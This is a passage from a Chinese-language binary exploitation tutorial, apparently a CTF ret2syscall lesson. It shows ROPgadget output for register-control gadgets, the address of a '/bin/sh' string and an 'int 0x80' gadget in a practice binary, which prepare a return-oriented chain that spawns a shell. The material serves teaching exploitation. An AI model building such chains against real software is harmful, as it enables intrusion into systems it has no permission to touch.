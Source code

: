 可以看到有上述几个都可以控制eax，那我就选取第二个来作为我的gadgets。

类似的，我们可以得到控制其它寄存器的gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

这里，我选择

```text
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

这个可以直接控制其它三个寄存器。

此外，我们需要获得/bin/sh字符串对应的地址。

```shell
➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```

可以找到对应的地址，此外，还有int 0x80的地址，如下

```text
➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```
